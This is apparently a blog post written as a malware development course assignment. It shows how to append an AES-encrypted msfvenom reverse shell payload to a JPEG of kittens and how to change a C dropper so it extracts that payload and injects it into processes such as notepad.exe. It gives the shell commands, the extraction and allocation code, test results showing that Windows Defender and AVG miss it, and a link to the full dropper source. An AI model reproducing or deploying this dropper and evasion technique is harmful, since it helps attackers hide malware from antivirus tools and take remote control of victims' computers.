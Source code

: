 ```yaml
---
layout: single
title: AV Evasion - The payload is behind kitties
date: 2020-09-22
classes: wide
header:
  teaser: /assets/images/AV_evasion/kittens.jpg
tags:
  - Pentester
  - Windows
  - Reverse shell
  - AV Evasion
  - Kitties
--- 
```

![](/assets/images/AV_evasion/kittens.jpg)<br>

## Introduction
Hello and welcome back to the 2nd assignment of the well done course on Malware Development by [Sektor7](https://institute.sektor7.net/red-team-operator-malware-development-essentials), in the previous [blog post](https://blackcloud.me/av-evasion-1/) we saw PE injection using a payload saved as a favicon.ico file, with all the functions and payload encrypted with AES. The next assignment is to hide the payload inside an image and implement the dropper with the capacity of extraction of the payload and injecting it in the PE process target.

## The Assignment
Let's start taking our last dropper and check what we have and what we must change.<br>
The most of the code is working pretty well as we saw, but the payload extraction has to be changed because now reenz0h asked to hide the payload inside an image and extract it before injecting in the victim process, so take a look closer to the payload memory loading and analyze what we have to change.

## the Payload
First of all we need to choose how hide our payload behind an image and most important how we want to extract it before using it. <br>
The hint in the assignemt page says we can use file concatenation. So we choosed this way to work (a big thank you to reenz0h for the help):
- Take a kitties image from internet (who doesn't love kitties? :))
- Create the payload with msfvenom
-- in this case I choosed a simple reverse tcp windows x64 shell
- Encrypt the payload with AES
- Append the encrypted payload at the end of the image 
- Append the original lenght of image as last bytes in the image

Once we downloaded the kitties image from internet we can check last 11 rows of the hexadecimal values of the image with ```xxd```
```bash
xxd -g1 U.jpg |  tail -11 
00330990: 81 f1 c0 8a b8 e5 e3 18 00 0e 13 62 25 25 3c 4d  ...........b%%<M
003309a0: f6 02 dc e7 98 fc 6f f6 62 59 5f c2 31 93 3c e2  ......o.bY_.1.<.
003309b0: 85 80 12 07 53 ba 85 c9 20 fe 97 e3 7c 0d c0 03  ....S... ...|...
003309c0: 96 d0 65 4f 89 a7 aa 78 21 2a 0a 58 29 2a b1 1a  ..eO...x!*.X)*..
003309d0: 6f 73 6c 08 53 2d e1 95 45 55 3c d3 4a 9f 09 0b  osl.S-..EU<.J...
003309e0: 1a 46 a3 cc 08 bf 37 bb 17 14 98 c8 38 9e eb 48  .F....7.....8..H
003309f0: 6a 94 92 4e a5 ac 8e 53 74 82 6d f6 fc 7c b0 51  j..N...St.m..|.Q
00330a00: 44 77 c8 1a 70 d2 57 c8 90 db 7a b4 bc 06 d6 e6  Dw..p.W...z.....
00330a10: 4a f5 95 03 ea ed 6e 1f 8e 08 a9 8f 2f 24 b6 f3  J.....n...../$..
00330a20: 7a 65 63 ae a5 cb ea 59 17 d1 60 b4 f3 a9 44 6e  zec....Y..`...Dn
00330a30: 3a e2 56 ce 6c e3 76 41 16 d0 cf ff d9           :.V.l.vA.....
```
Now after the encryption of the payload we can use a copy of the original image (is usefull to work on a copy just in case something doesn't work as exepected, you don't have to download the image everytime) and append the encrypted paylaod to the image with the ```cat``` command

```bash
cat payload_enc >> kittens.jpg
```
Now check the tail of the image compared with the encrypted payload to see if everithing is loaded correctly
![](/assets/images/AV_evasion/hex_compare.png)
As we can see after the hex values ``ff d9`` (that's in the end of every jpg file) we have our encrypted payload. <br>
After that we have to append the value of the size of the original image, in this case 3344957 bytes 

```bash
echo "3344957" >> kittens.jpg
```
Check again the last hex values of the manipulated jpg
![](/assets/images/AV_evasion/hex_compare2.png)<br>
Great! our devil jpg is ready. Now we have to modify our dropper to extract the payload from the image in our victim machine 

## the Dropper
Let's change the name of the payload as a recource by the file ```resources.rc``` to ```kittens.jpg```
```
#include "resources.h"

IMAGE RCDATA kittens.jpg
```
The dropper has a section where the payload is loaded as a resource with the ```FindResourceA``` and ```LoadResource``` functions, its lenght is calculated with ```SizeofResource``` then it is loaded in memory with the ```VirtualAlloc``` function

```
...
// Extract payload from resources section
    res = pFindResourceA(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA);
    resHandle = pLoadResource(NULL, res);
    payload = (char *) pLockResource(resHandle);
    payload_len = pSizeofResource(NULL, res);

// Allocate some memory buffer for payload
    exec_mem = pVirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
...
```
In the code trunk below the Windows functions are called as pointers because of AES encryption as saw in the previous post, this techniques works very well as an AV evasion technique so we can reuse it. Now we have to change this section like this

```
// Extract payload from the image
    image = (char*)pLockResource(resHandle); // lock the resource and point to the first char of the jpg
    image_len = SizeofResource(NULL, res); // get the size of the jpg + payload + last 7 bytes 
    
    end = image + image_len - 7; // jump to the end of the jpg and read the last 7 bytes that are the original size of the jpg without payload
    size = atoi(end); // cast from char to int, now size is the original size of the jpg
    offset = image + size; // offset points to the first char of the p0
    payload_len = image_len - size - 7; // calculate the payload size
    memcpy(payload, offset, payload_len); // copy in another memory area the effective payload 
    
// Allocate some memory buffer for payload
    exec_mem = pVirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
```
Long story short, instead of charging the payload from a separated file we need to:
- get the size of the devil image, 
- jump at the end of the devil image and read the last 7 bytes that are the size of the orginal image
- now we can calculate the offset from the original image and the devil image, this difference is the payload
- now we need to calculate the payload lenght
- use memcpy to load the payload in memory and use it as a resource

## Tests
As in the previos post we tested the dropper on different process: ```explorer.exe```, ```notepad.exe``` and ```smartscreen.exe``` but this case all the 3 processes inject don't trigger Windows Defender nor AVG Free, however the ```explorer.exe``` injecton cause a reload of the process in the case you exit the shell on my attacking machine and this is very loud. On the other hand nothing appens when we try to inject the ```notepad.exe```, AVG scan the dropper and let it execute the reverse shell payload maintaining the shell active also when we close Notepad and the ```notepad.exe``` process is destroyed, same story if we try to inject the ```smartscreen.exe``` process, another reverse shell session is opened without any alarm from AVG.
So we are following the TOON rule (Two is One and One is None) also in this case.  

![](/assets/images/AV_evasion/AVG_image_bypass.gif)<br>

and [here](https://github.com/bolonobolo/av_evasion/tree/master/PE_Injection/Behind%20image%20Dropper/implant.cpp) you can find the dropper code. <br>
In the next post we'll try to complete another point of the assignment ```hide the encrypted payload behind an image```.

## References
Malware Dev Essentials Course
- [Sektor7](https://institute.sektor7.net/red-team-operator-malware-development-essentials)
- [reenz0h](https://twitter.com/Sektor7Net) <br>
